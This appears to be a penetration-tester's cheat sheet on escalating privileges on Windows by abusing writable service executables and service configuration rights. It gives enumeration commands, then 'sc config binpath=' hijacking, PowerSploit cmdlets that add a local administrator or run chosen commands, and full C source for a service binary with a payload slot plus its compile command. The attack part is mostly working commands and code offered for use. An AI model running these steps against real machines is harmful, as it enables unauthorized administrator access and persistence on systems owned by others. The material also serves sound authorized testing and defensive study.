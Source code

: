 # Windows Service Executable Permissions

- Check the permissions on service executables
- Check the permissions on them
- Replace the binary 

## Enumeration

- Find service binary paths

```
wmic service list full | find /i "pathname" | find /i /v "system32"
```

- Run icacls on the binary

```
icacls C:\Path\to\binary
```

- Or run accesschk64

```
accesschk64.exe -uwcv Everyone *
accesschk64.exe -wvuc C:\Path\To\Binary.exe
accesschk64.exe -wvuc <service name>

```

- Look for Write permissions 
- Look for SERVICE_CHANGE_CONFIG or SERVICE_ALL_ACCESS

- Or check powerup 

## Exploitation

- Replace the binary with a malicious one
- restart the service

```
sc start <servicename>
```

### sc config

- When running accesscheck if you have SERVICE_CHANGE_CONFIG, or SERVICE_ALL_ACCESS
- Check for the BINARY_PATH_NAME parameter 

```
sc qc <service name>
```

- Change the path to a command you want to run or a malicious binary

```
sc config <service name> binpath= "COMMAND TO RUN"
```

### Powersploit

#### Invoke-ServiceAbuse

https://powersploit.readthedocs.io/en/latest/Privesc/Invoke-ServiceAbuse/

Adds a local user John with a password "Password123!":

```
Invoke-ServiceAbuse -Name <serviceName> 
```

- Adds a specified user to local admins group

```
Invoke-ServiceAbuse -Name <servicename> -UserName "Domain\User"
```

- Run a custom command

```
Invoke-ServiceAbuse -Name <servicename> -Command "..."
```

#### Write-ServiceBinary

https://powersploit.readthedocs.io/en/latest/Privesc/Write-ServiceBinary/

- Patches in the specified command to a pre-compiled C# service executable and writes the binary out to the specified ServicePath location.

- Add a local administrator john/Password123!

```
Write-ServiceBinary -Name <service>
```

- Add a specific user to local admins

```
Write-ServiceBinary -Name <service> -Username "Domain\User"
```

- Execute a specific command

```
Write-ServiceBinary -Name <service> -Command "..."
```

#### Install-ServiceBinary

- https://powersploit.readthedocs.io/en/latest/Privesc/Install-ServiceBinary/
- Replaces the service binary for the specified service with one that executes a specified command
- Add a local admin john/Password123!

```
Install-ServiceBinary -Name <service>
```

- Add a specific local admin

```
Install-ServiceBinary -Name <service> -UserName "Domain\user"
```

- Run a command 

```
Install-ServiceBinary -Name <service> -Command "..."
```

### Windows Service C

https://raw.githubusercontent.com/sagishahar/scripts/master/windows_service.c

- Modify the payload and compile

```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```



```
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("whoami > c:\\windows\\temp\\service.txt");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 

```

